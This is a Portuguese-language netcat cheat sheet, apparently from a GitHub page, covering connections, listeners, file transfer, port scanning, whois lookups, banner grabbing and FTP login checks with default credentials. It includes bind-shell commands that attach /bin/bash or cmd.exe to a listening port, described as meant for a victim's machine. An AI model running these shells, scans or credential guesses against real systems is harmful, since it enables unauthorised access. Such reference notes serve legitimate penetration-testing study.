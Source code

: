 # NC
Pode ser usado: nc | ncat | netcat.

nc ==> Executa o netcat.
nc -h ==> Help do netcat.
nc 172.16.1.4 110 ==> Conecta no IP 172.16.1.4 na porta 110 TCP.
nc www.grandbusiness.com.br 21 ==> Conecta ao site através da porta 21.
nc -v 172.16.1.4 ==> Verbose mode.
netstat -nlpt ==> Verifica portas abertas no sistema.
nc -vlp 5050 ==> -v [verbose mode], l [listening], p [port], abertura de porta.
nc -vlup 9000 ==> -v [verbose mode], l [listening], u [UDP], p [port], abertura de porta.
nc -u 127.0.0.1 9000 ==> Conecta na porta 9000 UDP no IP 127.0.0.1.
nc -vlp 80 < servidor.txt ==> Envia o arquivo "servidor.txt" na conexão.
nc -lnvp 5050 > ncat.exe ==> Envia tudo que chegar para o arquivo ncat.exe.
nc -vn 192.168.0.105 5050 < ncat.exe ==> Envia o arquivo "ncat.exe" na conexão.

nc -vnlp 5050 -e /bin/bash ==> Executa o /bin/bash
nc -vnlp 5050 -e cmd.exe ==> Executa o CMD
* Os dois comandos acima são um modelo de shell simples onde devem ser executadas na máquina da vítima.

Escaneando portas:  
``nc -vnz 172.16.1.5 19-30`` Será escaneado da porta 19 atá a 30.  
``nc -vnz 172.16.1.5 22`` Será escaneado somente a porta 22.
``nc -vnz -w2 172.16.1.5 22`` Será escaneado levando em consideração o Timeout de 2 segundos [-w2].
``nc -vnzu -w 172.16.1.5 22`` Será feito o escaneamento UDP [u].

Vericando whois pelo NC:  
``nc -v 200.160.2.3 43  
globo.com``
* A porta 43 é utilizada pelo WHOIS.
* O IP 200.160.2.3 é do registro.br.

## Banner Grabbing
### HTTP
nc -vn www.alvo.com 80
HEAD / HTTP/1.0

### FTP
nc -v 192.168.1.100
USER admin
PASS 123456

ftp 192.168.1.100
Sempre teste com usuário 'anonymous' e senha 'anonymous'.
Caso o login tenha sido aceito, será retornado o código '230 Login successful'.




